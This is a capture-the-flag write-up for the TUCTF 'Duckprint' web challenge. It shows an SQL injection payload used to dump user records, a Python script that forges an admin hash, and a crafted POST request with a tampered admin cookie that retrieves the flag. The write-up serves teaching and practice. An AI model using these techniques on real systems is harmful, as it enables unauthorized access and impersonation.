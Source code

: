 # Duckprint (Web, 100pts)

See if you can steal the admin's duck print and validate it!

When calculating the SHA, leave the periods in

http://130.211.242.26:31337


## Solution

We get simple web application, where we can register user and generate something called "Duck print" (hash calculated from couple of values). There's also validation of "Duck print", but only admin user is allowed.

![Duckprint]
(assets/dp2.png)

After registering a user, Duck print is generated with some additional factors (cookie in format {username:username,admin:0}  and token):

![Duckprint]
(assets/dp3.png)

Also, in _generate.php_ source code there's a comment with SQL query, where we can find easy to exploit SQL Injection flaw ($username is used without any sanitization):

```
<label for='username' >Username:</label>
<!-- $query = "SELECT * FROM users WHERE username ='" . $username . "'"; -->
<input type='text' name='username' id='username' maxlength="50" />
<input type='submit' name='Submit' value='Submit' />
```

Using one of the basics SQL Injection payloads as username in _register.php_, there's a long list of many interesting usernames used by other teams to solve this challenge:

```
admin' or 1=1-- 
```

Result:

![Duckprint]
(assets/dp1.png)


First one looks very interesting as it's only one with admin flag set to '1':

```
DuckDuckGoose:1:d4rkw1ng
```

I've created quick Python tool to generate valid Duck print for DuckDuckGoose user using all required parts (token _d4rkw1ng_ from line above, cookie in expected format and _DuckDuckGoose_ as username)

```Python
#!/usr/bin/python
import base64
import hashlib

# Generate SHA:
# sha256(b64(username) + "." + b64(cookie) + "." + b64(token))

username = "DuckDuckGoose"
token = "d4rkw1ng"
cookie = '{"username":"DuckDuckGoose","admin":1}'

print hashlib.sha256(base64.b64encode(username) + "." + base64.b64encode(
    cookie) + "." + base64.b64encode(token)).hexdigest()

# Result: d626290acdc6a948a5f2b5c2850730f4e4b2bdbd36da01226a192985d20d787d

```

Then, using generated Duck print and cookie for DuckDuckGoose, which was the only user with access to _validate.php_ page, I was able to create final request:

```
POST /validate.php HTTP/1.1
Host: 130.211.242.26:31337
Content-Length: 100
Pragma: no-cache
Cache-Control: no-cache
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: http://130.211.242.26:31337
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.112 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://130.211.242.26:31337/validate.php
Accept-Encoding: gzip, deflate
Accept-Language: pl-PL,pl;q=0.8,en-US;q=0.6,en;q=0.4
Cookie: duck_cookie=%7B%22username%22%3A%22DuckDuckGoose%22%2C%22admin%22%3A1%7D
Connection: close

submitted=1&duckprint=d626290acdc6a948a5f2b5c2850730f4e4b2bdbd36da01226a192985d20d787d&submit=Submit
```

and get the flag:

TUCTF{Quacky_McQuackerface}

![Duckprint]
(assets/dp4.png)

